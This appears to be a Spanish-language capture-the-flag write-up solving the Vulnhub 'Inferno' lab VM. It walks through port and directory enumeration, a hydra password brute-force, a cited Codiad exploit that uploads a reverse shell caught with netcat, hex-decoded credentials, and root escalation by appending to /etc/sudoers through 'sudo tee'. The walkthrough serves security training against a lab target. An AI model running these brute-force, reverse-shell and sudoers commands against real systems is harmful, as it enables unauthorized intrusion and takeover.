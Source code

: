 ```yaml
---
layout: post
title: Inferno - Vulnhub
tags: [ctf, vulnhub]
---
```


**Autor**: Mindsflee \\
**Dificultad**: Fácil

![img](/imgs/write-ups/vulnhub/inferno/inferno.png#center)

## Enumeración

Como siempre, lo primero es una enumeración con nmap. En esta máquina hay muchos puertos abiertos pero solo 2 (22 y 80) tiene servicios ejecutandose detrás .

```
$ sudo nmap 192.168.1.24
Nmap scan report for 192.168.1.24
Host is up (0.00082s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
[...]
22/tcp open  ssh
[...]
80/tcp open  http
[...]
MAC Address: 08:00:27:04:0F:28 (Oracle VirtualBox virtual NIC)
```

Tras idenfiticar los servicios activos, procedo con una enumeración de subdirectorios usando gobuster.

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://192.168.1.24" -x php,txt,html,log,jpg,png
===============================================================
2022/12/29 12:59:30 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 638]
/1.jpg                (Status: 200) [Size: 680065]
/inferno              (Status: 401) [Size: 459]
```

Encuentro el directorio "/inferno", pero al intentar acceder es necesario iniciar sesión. En este caso utilizo hydra para conseguir unas credenciales válidas.

```
$ hydra -l admin -P /usr/share/seclists/Passwords/rockyou.txt -u -f 192.168.1.24 -s 80 http-get /inferno
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-29 13:01:15
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-get://192.168.1.24:80/inferno
[STATUS] 7011.00 tries/min, 7011 tries in 00:01h, 14337387 to do in 34:05h, 16 active
[80][http-get] host: 192.168.1.24   login: admin   password: dante1
[STATUS] attack finished for 192.168.1.24 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

Tras iniciar sesión me encuentro con otra página de login, pero ahora es de "codiad".

![login codiad](/imgs/write-ups/vulnhub/inferno/inferno_1.png#center)

Para continuar uso las mismas credenciales que en el anterior login.

## Explotación

Para conseguir una shell en el servidor, utilizo la siguiente vulnerabilidad descrita en [Exploit DB](https://www.exploit-db.com/exploits/50474), que nos permite subir una reverse shell.

Una vez subida, solo hay que cargar el archivo y obtengo la conexión.

```
$ nc -lvnp 1234
Connection from 192.168.1.24:33764
Linux Inferno 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64 GNU/Linux
 08:06:47 up 18 min,  0 users,  load average: 0.02, 0.37, 0.27
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ :)
```

De esta forma ya estoy dentro, ahora solo queda escalar privilegios.

## Escalado de privilegios

Tras enumerar la máquina, encuentro el siguiente archivo en la carpeta "Downloads" de Dante.

```
www-data@Inferno:/home/dante/Downloads$ cat .download.dat
c2 ab 4f 72 20 73 65 e2 80 99 20 74 75 20 71 75 65 6c 20 56 69 72 67 69 6c 69 6f 20 65 20 71 75 65 6c 6c 61 20 66 6f 6e 74 65 0a 63 68 65 20 73 70 61 6e 64 69 20 64 69 20 70 61 72 6c 61 72 20 73 c3 ac 20 6c 61 72 67 6f 20 66 69 75 6d 65 3f c2 bb 2c 0a 72 69 73 70 75 6f 73 e2 80 99 69 6f 20 6c 75 69 20 63 6f 6e 20 76 65 72 67 6f 67 6e 6f 73 61 20 66 72 6f 6e 74 65 2e 0a 0a c2 ab 4f 20 64 65 20 6c 69 20 61 6c 74 72 69 20 70 6f 65 74 69 20 6f 6e 6f 72 65 20 65 20 6c 75 6d 65 2c 0a 76 61 67 6c 69 61 6d 69 20 e2 80 99 6c 20 6c 75 6e 67 6f 20 73 74 75 64 69 6f 20 65 20 e2 80 99 6c 20 67 72 61 6e 64 65 20 61 6d 6f 72 65 0a 63 68 65 20 6d e2 80 99 68 61 20 66 61 74 74 6f 20 63 65 72 63 61 72 20 6c 6f 20 74 75 6f 20 76 6f 6c 75 6d 65 2e 0a 0a 54 75 20 73 65 e2 80 99 20 6c 6f 20 6d 69 6f 20 6d 61 65 73 74 72 6f 20 65 20 e2 80 99 6c 20 6d 69 6f 20 61 75 74 6f 72 65 2c 0a 74 75 20 73 65 e2 80 99 20 73 6f 6c 6f 20 63 6f 6c 75 69 20 64 61 20 63 75 e2 80 99 20 69 6f 20 74 6f 6c 73 69 0a 6c 6f 20 62 65 6c 6c 6f 20 73 74 69 6c 6f 20 63 68 65 20 6d e2 80 99 68 61 20 66 61 74 74 6f 20 6f 6e 6f 72 65 2e 0a 0a 56 65 64 69 20 6c 61 20 62 65 73 74 69 61 20 70 65 72 20 63 75 e2 80 99 20 69 6f 20 6d 69 20 76 6f 6c 73 69 3b 0a 61 69 75 74 61 6d 69 20 64 61 20 6c 65 69 2c 20 66 61 6d 6f 73 6f 20 73 61 67 67 69 6f 2c 0a 63 68 e2 80 99 65 6c 6c 61 20 6d 69 20 66 61 20 74 72 65 6d 61 72 20 6c 65 20 76 65 6e 65 20 65 20 69 20 70 6f 6c 73 69 c2 bb 2e 0a 0a 64 61 6e 74 65 3a 56 31 72 67 31 6c 31 30 68 33 6c 70 6d 33
```

Utilizo [Cyberchef](https://cyberchef.org/) para decodificarlo y encuentro tanto usuario como contraseña.

```
«Or se’ tu quel Virgilio e quella fonte
che spandi di parlar sì largo fiume?»,
rispuos’io lui con vergognosa fronte.

«O de li altri poeti onore e lume,
vagliami ’l lungo studio e ’l grande amore
che m’ha fatto cercar lo tuo volume.

Tu se’ lo mio maestro e ’l mio autore,
tu se’ solo colui da cu’ io tolsi
lo bello stilo che m’ha fatto onore.

Vedi la bestia per cu’ io mi volsi;
aiutami da lei, famoso saggio,
ch’ella mi fa tremar le vene e i polsi».

dante:V1rg1l10h3lpm3
```

Tras conectarme mediante ssh, compruebo los permisos de Dante y veo que puede ejecutar "tee" como el usuario root.

```
dante@Inferno:~$ sudo -l
Matching Defaults entries for dante on Inferno:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User dante may run the following commands on Inferno:
    (root) NOPASSWD: /usr/bin/tee
```

Conociendo esto, añado al usuario Dante al fichero "/etc/sudoers" con todos los privilegios, pudiendo así iniciar sesión como root.

```
dante@Inferno:~$ echo "dante ALL=(ALL:ALL) ALL" | sudo tee -a /etc/sudoers
dante ALL=(ALL:ALL) ALL
dante@Inferno:~$ sudo su
[sudo] password for dante: 
root@Inferno:/home/dante# :)
root@Inferno:/home/dante# cat /root/proof.txt


 (        )  (          (        )     )   
 )\ )  ( /(  )\ )       )\ )  ( /(  ( /(   
(()/(  )\())(()/(  (   (()/(  )\()) )\())  
 /(_))((_)\  /(_)) )\   /(_))((_)\ ((_)\   
(_))   _((_)(_))_|((_) (_))   _((_)  ((_)  
|_ _| | \| || |_  | __|| _ \ | \| | / _ \  
 | |  | .` || __| | _| |   / | .` || (_) | 
|___| |_|\_||_|   |___||_|_\ |_|\_| \___/ 


Congrats!

You've rooted Inferno!

77f6[...]

mindsflee

https://www.buymeacoffe.com/mindsflee
```

Muchas gracias a **Mindsflee** por esta máquina.
